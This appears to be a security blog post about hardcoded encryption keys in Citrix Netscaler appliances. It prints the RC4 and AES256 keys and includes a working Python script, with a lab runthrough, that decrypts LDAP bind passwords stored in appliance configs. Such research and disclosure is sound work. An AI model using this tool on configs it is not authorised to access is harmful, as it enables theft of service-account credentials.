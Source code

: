 ```yaml
---
layout: page
title: Citrix Netscaler config decryption
permalink: /citrix-decrypt/
---
```


## Netscaler

Citrix Netscaler (or whatever they're calling it now) uses hardcoded encryption keys to encrypt at least some passwords stored in the appliance config, most importantly for LDAP bind passwords. As a side note - **the passwords for accessing the appliance itself via CLI or GUI are hashed, not encrypted**. You can still attempt to break these using hashcat but it requires bruteforcing.

However, some other values in the config like LDAP bind passwords are encrypted and can be recovered as by default they are encrypted by hardcoded keys that seem to be common to all Netscalers. These static encryption keys are compliled into the `libnscli90.so` library on the appliance. As of 10.5 this was the RC4 key `2286da6ca015bcd9b7259753c2a5fbc2`. At some point Citrix changed the default key and cipher used to encrypt cleartext values. The default key is now 
```
351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9
```
and the appliance now (12.0) uses AES256-CBC instead of RC4. I figured out after a quick bit of RE that the version signifier seems the be the `-encryptmethod` flag, where `ENCMTHD_3` signifies it is using AES256-CBC and the new default key.   


### Additional notes
If you add an old style (RC4) encrypted value to a newer appliance it will decrypt it, then re-encrypt using the new ENCMTHD_3 technique. A small number examples online appear to use the `ENCMTHD_2` value, which is uses the new key and AES256-ECB instead of CBC. 

*If the config line says -kek at the end you'll need to pull key encryption keys off the appliance and do a little more reversing, see [this blog post for a reference on the Netscaler KEK](https://www.ferroquesystems.com/resource/citrix-adc-security-kek-files/)*


## Decrypting
Here's a quick guide on how to decrypt these LDAP passwords:

1. If there is a `-kek` flag on the config line this means it is using a seperate key to encrypt the password instead of the hardcoded one. In theory you should be able to pull this off a compromised Netscaler but a config alone wont give you the cleartext. See [this blog post for a reference on the Netscaler KEK](https://www.ferroquesystems.com/resource/citrix-adc-security-kek-files/). I will look into doing this at some point and update this post.
2. If there is no `ENCMTHD_` value, it is likely encrypted using the original RC4 method (I'm calling this ENCMTHD_1). You can decode this using the below script. 
3. Otherwise if there is `ENCMTHD_3` or `ENCMTHD_2` and no `-kek` it uses the new AES256-CBC or AES256-ECB encryption method. You can also decode this using the below script.

An example line from a new config may look like 
```
add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
```
indicating that it is encrypted with AES256-CBC using the default key.

Extract the ldapBindDnPassword and pass it to the script:
```
# python decitrix.py b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f ENCMTHD_3
test12345678secretldappassword
```

## Decrypting script
The below python script will decrypt LDAP and likely similar encrypted values (haven't tested anything else) obtained from the config.
{% highlight python %}
#!/usr/bin/python

import base64
from Crypto.Cipher import AES,ARC4
import binascii,sys


BS = 16
unpad = lambda s : s[:-ord(s[len(s)-1:])]

#thanks  https://stackoverflow.com/a/12525165 for crypto snippet
class AESCipher:
    def __init__( self, key ):
        self.key = key

    def decrypt( self, enc, mode ):
        if mode == "ENCMTHD_2":
                cipher = AES.new(self.key, AES.MODE_ECB )
        elif mode == "ENCMTHD_3":
                iv = "\x00" * 16
                cipher = AES.new(self.key, AES.MODE_CBC, iv )

        else:
            print "Invalid mode"
            return False

        return unpad(cipher.decrypt( enc ))


def main():
        #Keys hardcoded into netscaler libnscli90.so
        aeskey = binascii.unhexlify("351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9")
        rc4key = binascii.unhexlify("2286da6ca015bcd9b7259753c2a5fbc2")

        if len(sys.argv) == 3:
            ciphertext = sys.argv[1]
            mode = sys.argv[2]

            if mode == "ENCMTHD_3" or mode == "ENCMTHD_2":
                c = AESCipher(aeskey)
                decoded = c.decrypt(binascii.unhexlify(ciphertext),mode)
                if mode == "ENCMTHD_3":
                        print decoded[16:]
                else:
                        print decoded

            elif mode == "ENCMTHD_1": #old rc4 mode
                out_cipher = ARC4.new(rc4key)
                decoded = out_cipher.decrypt(binascii.unhexlify(ciphertext))
                print decoded


if __name__ == "__main__":
        main()
{% endhighlight %}



#### Runthrough

```
>add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword test12345678secretldappassword -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
Done
>show running
..snip..
add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
..snip..

# python decitrix.py b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f ENCMTHD_3
test12345678secretldappassword
```

